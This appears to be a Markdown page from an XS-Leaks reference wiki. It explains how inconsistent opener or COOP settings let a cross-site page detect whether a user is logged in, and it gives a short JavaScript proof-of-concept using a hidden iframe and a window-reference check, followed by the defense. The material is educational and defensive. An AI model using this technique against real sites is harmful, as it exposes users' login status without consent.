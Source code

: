 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) depending on users' login status, it becomes possible to detect user's current status. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users [^1] have access to, simply checking its window reference.

## Code Snippet
The below snippet demonstrates the attack where the target page is supposedly only accessible to authenticated users and is setting its `opener` property to null (or is using COOP with value other than `unsafe-none`):

```javascript
const url = 'https://example.org/profile';

const exploit = url => {
  document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks" style="height:700px;width:100%;display:none">');
  const win = open(url, 'xsleaks');
  setTimeout(() => {
    if(!win) console.log('User\'s logged in- reference not defined');
  }, 2000);
}
exploit(url);
```
In case the page is not framable (or uses SameSite cookies), we can instead open the page in a new tab (`target="_blank"`) and achieve the same.

## Defense

The mitigation of this XS-Leak is to be consistent everywhere- set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.

## References

[^1]: Twitter ID exposure via error-based side-channel attack, [link](https://hackerone.com/reports/505424)
